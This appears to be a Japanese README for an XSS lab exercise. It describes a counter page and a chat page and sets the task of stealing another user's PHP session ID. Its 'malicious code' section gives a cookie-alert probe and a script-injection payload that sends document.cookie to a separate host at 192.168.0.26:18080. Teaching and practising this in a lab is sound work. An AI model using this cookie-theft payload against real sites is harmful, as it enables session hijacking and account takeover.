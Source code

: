 # PHP Session ID

XSSの課題サンプルです。

## Chrome Edit This Cookieプラグイン

https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=ja


## index.php

ボタンを押すと数字が増えます。楽しい！

## chat.php

おしゃべりできます。なんてエキサイティング！

## セキュリティ課題：他のユーザのSESSION IDを取得するには

### 不正なコード

```
<script>alert(document.cookie)</script>
```

```
<script>const s = document.createElement("script"); s.src="http://192.168.0.26:18080/?cookie=" + document.cookie;document.querySelector("head").append(s);</script>
```
